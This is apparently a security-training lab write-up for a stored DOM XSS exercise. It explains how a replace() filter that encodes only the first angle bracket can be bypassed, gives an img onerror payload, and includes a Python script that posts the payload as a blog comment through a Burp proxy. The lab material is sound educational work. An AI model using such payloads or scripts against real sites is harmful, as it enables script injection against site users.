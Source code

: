 ```yaml
---
title: 'XSS Lab 13'
description: 'Stored DOM XSS via blog comment functionality — bypassing naive replace() filter'
---
```



## Stored DOM XSS

<div style="text-align: justify;">
  This lab demonstrates a **stored DOM XSS** vulnerability in the blog comment functionality. The application attempts to mitigates XSS by using JavaScript's `replace()` function to encode angle brackets, but the implementation passes a string as the first argument to `replace()`, which only replaces the first occurrence. By prepending an extra pair of angle brackets, the filter encodes the first pair while leaving the subsequent brackets intact — allowing injection of an HTML element that triggers `alert(1)` when rendered.

  The exploit posts a payload as a comment that takes advantage of this encoding bug and executes JavaScript in the victim's browser when the comment is displayed.
</div>

<Aside>
  Start Burp Suite before running the script — it uses a proxy for visibility.
</Aside>

### How Exploit Works
- The comment field is stored and later rendered in a blog post (stored XSS).
- The application uses `str.replace('<', '&lt;')` (string form), which only replaces the first occurrence of `<`.
- By sending a comment starting with an extra pair of angle brackets (e.g. `<><img src=1 onerror=alert(1)>`), the first `<` is encoded while the second remains, allowing the injection of an `img` tag with an `onerror` handler.
- When the post is viewed, the injected HTML executes and calls `alert(1)`, proving the XSS vector.
- The script automates posting the comment and checks for the lab's success indicator.

### Usage

```cmd
python3 exploit.py https://<your-lab-id>.web-security-academy.net
```

### Exploit

```python title="exploit.py"
import requests, sys, urllib3
from bs4 import BeautifulSoup

urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
proxies = {'http': 'http://127.0.0.1:8080','https': 'http://127.0.0.1:8080'}

def check_burp():
    try:
        requests.get("http://127.0.0.1:8080", proxies=proxies, timeout=3, verify=False)
    except:
        print("[-] Burp Suite not running.")
        sys.exit(1)

def exploit_xss(url, payload):
    s = requests.Session()
    s.proxies, s.verify = proxies, False

    post_page = url.rstrip("/") + "/post?postId=5"
    r = s.get(post_page); r.raise_for_status()
    soup = BeautifulSoup(r.text, "html.parser")
    csrf = soup.find("input", {"name": "csrf"})["value"]

    data = {
        "csrf": csrf,
        "postId": "5",
        "comment": payload,
        "name": "test",
        "email": "test@test.com",
        "website": "http://test.com"
    }
    s.post(url.rstrip("/") + "/post/comment", data=data).raise_for_status()

    if "Congratulations" in s.get(url).text:
        print("[+] Lab solved! 🎉"); return True
    return False

def main():
    if len(sys.argv) != 2:
        print(f"Usage: python {sys.argv[0]} <url>"); sys.exit(1)
    check_burp()
    print("[*] Attempting XSS...")
    if exploit_xss(sys.argv[1], '<><img src=99s onerror=alert(1)>'):
        print("[+] XSS successful!")
    else:
        print("[-] XSS unsuccessful.")

if __name__ == "__main__":
    main()
```
